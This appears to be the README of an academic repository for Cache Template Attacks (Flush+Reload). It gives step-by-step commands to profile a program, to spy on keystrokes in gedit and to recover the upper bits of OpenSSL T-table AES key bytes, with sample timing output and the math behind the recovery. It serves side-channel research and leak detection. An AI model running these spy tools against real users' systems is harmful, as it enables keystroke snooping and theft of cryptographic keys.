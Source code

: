 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks and OpenSSL AES T-Table attack.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (2014).

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper by Gruss, Spreitzer and Mangard was published at USENIX Security 2015.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration 10
```
This program should print a histogram for cache hits and cache misses. The number specifies the bucket size for the histogram.

## Profiling
In this example we perform some steps by hand to illustrate what happens in the background.
Therefore, we will first find the address range to attack.
```
cat /proc/`pidof gedit`/maps | grep libgedit | grep "r-x"
7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step.

During the profiling you need to perform or simulate a huge number of key presses. The profiling tool gives you 2 seconds of time to switch windows, e.g., to an already opened gedit window.

On Linux, run the following lines:
```
cd profiling
make
./spy 155 100 7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```

Choose a cache line with a nice number of cache hits and pass it to the generic exploitation spy tool:
```
cd exploitation
make
./spy 155 /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so 0x22980
```
Now this tool prints a message exactly when a user presses a key (in gedit).
This spy tool can also be used on Windows just like that.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well.

## OpenSSL AES T-Table attack

### Manual attack - Profiling phase
In order to enable the T-Table based AES implementation, the use of a self-compiled OpenSSL library is  required. Additionally, `libcrypto.so.1.0.0` need to be placed in the folder `profiling_aes_example` and the program must run it as a shared library.  
Then run
```
cd profiling_aes_example
make
./spy
```
 
The small set of frequently accessed addresses (*i.e.*, 64) makes it easy to locate the T-table in the log file.  
To successfully complete the *profiling* phase, the initial encryptions run should be performed using a dummy key (included in `spy.cpp` code), for example:  
```
0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,   
0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F
```

In this phase, the goal is to observe 64 consecutive offsets showing a "*diagonal pattern*" and to understand the range used during the encryption; here's an example of profiling the first key byte with `NUMBER_OF_ENCTRYPTION` = 2100:  
```
0x16e540,2100,1925,1924,1923,1949,1928,1934,1933,1921,1926,1926,1900,1921,1942,1938,1933
0x16e580,1925,2100,1929,1922,1917,1924,1908,1945,1916,1911,1931,1935,1945,1928,1942,1938
0x16e5c0,1924,1917,2100,1937,1915,1942,1906,1931,1941,1939,1936,1934,1945,1958,1935,1909
0x16e600,1940,1912,1925,2100,1928,1929,1920,1911,1926,1920,1927,1926,1933,1928,1938,1926
0x16e640,1928,1916,1943,1932,2098,1918,1947,1943,1919,1915,1928,1906,1910,1939,1923,1932
0x16e680,1930,1930,1910,1924,1946,2100,1938,1950,1902,1931,1915,1943,1909,1921,1922,1934
0x16e6c0,1919,1932,1925,1915,1919,1913,2100,1937,1915,1908,1939,1915,1922,1915,1927,1918
0x16e700,1930,1932,1929,1935,1926,1942,1926,2100,1922,1937,1951,1927,1938,1951,1941,1942
0x16e740,1908,1932,1937,1931,1914,1921,1927,1947,2100,1903,1945,1923,1935,1897,1927,1936
0x16e780,1950,1949,1933,1945,1930,1939,1945,1948,1932,2099,1938,1942,1924,1919,1911,1907
0x16e7c0,1929,1921,1922,1928,1947,1924,1933,1934,1932,1924,2100,1930,1917,1935,1920,1943
0x16e800,1937,1934,1924,1900,1924,1934,1938,1930,1936,1910,1935,2100,1908,1941,1925,1933
0x16e840,1913,1914,1938,1936,1946,1939,1930,1932,1917,1946,1932,1938,2100,1917,1928,1937
0x16e880,1938,1934,1928,1932,1941,1945,1938,1942,1930,1944,1943,1923,1941,2100,1926,1933
0x16e8c0,1928,1908,1949,1930,1928,1926,1936,1931,1940,1919,1918,1926,1921,1917,2098,1930
0x16e900,1934,1923,1929,1932,1935,1938,1946,1927,1901,1950,1935,1927,1936,1934,1935,2100
```

Obviously, it's important to have a pattern with 2100 cycles along the diagonal, or values very close to 2100, such as 2099 or 2098.


### Manual attack - Exploitation phase
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

In the *expoitation* phase, the spy tool must trigger encryptions itself using the realistic key - comment out the dummy key (or replace/add a realistic key) and run the encryptions. After 64 encryptions, the upper 4 bits of each key byte can be trivially determined.  

The following lines show an example of output for the first key byte (in fact we can see the same offsets of the previous example):  
```
0x16e540,1916,1910,1918,1930,1953,2100,1912,1923,1936,1926,1947,1926,1941,1929,1934,1921
0x16e580,1930,1946,1923,1923,2100,1936,1907,1947,1901,1906,1952,1934,1927,1952,1920,1934
0x16e5c0,1926,1929,1945,1930,1926,1934,1951,2099,1950,1943,1928,1956,1915,1913,1944,1956
0x16e600,1939,1904,1934,1932,1939,1917,2100,1941,1923,1915,1918,1930,1934,1955,1911,1920
0x16e640,1921,2100,1933,1926,1929,1937,1922,1924,1925,1932,1939,1928,1929,1933,1931,1928
0x16e680,2100,1930,1951,1936,1905,1929,1932,1917,1917,1932,1913,1928,1898,1943,1937,1919
0x16e6c0,1937,1941,1921,2100,1918,1931,1896,1938,1925,1925,1915,1931,1920,1924,1928,1943
0x16e700,1914,1944,2100,1905,1928,1926,1920,1944,1923,1934,1917,1946,1915,1940,1916,1943
0x16e740,1925,1941,1927,1933,1935,1915,1942,1926,1908,1938,1937,1932,1930,2100,1924,1921
0x16e780,1931,1933,1933,1926,1926,1938,1935,1927,1930,1929,1935,1923,2099,1941,1947,1920
0x16e7c0,1951,1944,1933,1915,1935,1937,1917,1924,1929,1914,1929,1920,1920,1940,1945,2100
0x16e800,1948,1923,1908,1937,1932,1944,1937,1934,1940,1951,1919,1945,1924,1917,2100,1939
0x16e840,1921,1938,1942,1918,1940,1958,1940,1909,1920,2099,1938,1907,1923,1929,1927,1939
0x16e880,1912,1942,1940,1933,1922,1919,1949,1936,2100,1914,1915,1931,1926,1943,1946,1944
0x16e8c0,1919,1901,1937,1907,1940,1932,1950,1923,1948,1931,1904,2098,1916,1930,1922,1918
0x16e900,1930,1937,1951,1920,1931,1945,1935,1936,1904,1922,2100,1940,1918,1961,1931,1932
```

To perform the attack manually, repeat this process for each key byte; after completing all runs you will obtain the upper 4 bits of every key byte. Note that if you proceed manually you will also need to appropriately modify the corresponding sections of `spy.cpp` between runs (for example toggling the dummy/real key, adjusting the target byte index, ecc...). If you prefer to automate the process, see the following section.

### Semi-automatic attack
If you prefer to test `spy.cpp` atomatically, you can configure `libcrypto.so.1.0.0` as described above and then run the tool:
```
cd profiling_aes_example
python3 run_attack.py
```

This tool automates both the profiling and exploitation phases: it modifies and executes the necessary code and generates the corresponding output files. For reasons of execution time and readability, the tests are performed only on the first 4 bytes of the key by default, but you can modify `run_attack.py` to run the attack on all key bytes (note that completing the full process will require significantly more time depending on your hardware).

Of course, we know that OpenSSL does not use a T-Table-based AES implementation anymore. But you can use this tool to profile any (possibly closed-source) binary to find whether it contains a crypto algorithm which leaks key dependent information through the cache. Just trigger the algorithm execution with fixed keys 


That's it, now it's up to you to find out which of your software leaks data and how it could be exploited. I hope it helps you closing these leaks.

### Output interpretation
The interpretation of the output files is straightforward: the *profiling* phase yields the correct 64 offset range we are interested in, and the *exploitation* phase shows the cycle counts in the columns that allow us to infer the 4 Most-Significant Bits of each key byte.  

T-tables work such that an entry corresponds to $T[K_i \oplus P_i]$ (where $K_i$ is a single key byte and $P_i$ is a single plaintext byte). Knowing only the table index and the plaintext byte makes it possible to deduce the desired information about a secret key.  

Using the example above, for the first key byte we know that `0x16e540` corresponds to index $0$ of the used T-table (offset deduced during profiling), while the highest cycle count ($2100$) from the exploitation output appears in column 6. Since the plaintext byte increases by 16 for each column (starting from $0$), the plaintext byte at column $6$ is $16 \cdot 5 = 80_{10} = 0x50$. Because we are only interested in the upper 4 bits, we consider only $0x5$.  

Now, given the **_XOR_** operation in this AES implementation, we can easily deduce that $0x0 \oplus 0x5 = 0x5$, which corresponds to the upper 4 bits of the real key used in this test.  

The same principle can be applied to all identified T-table entries, up to 64.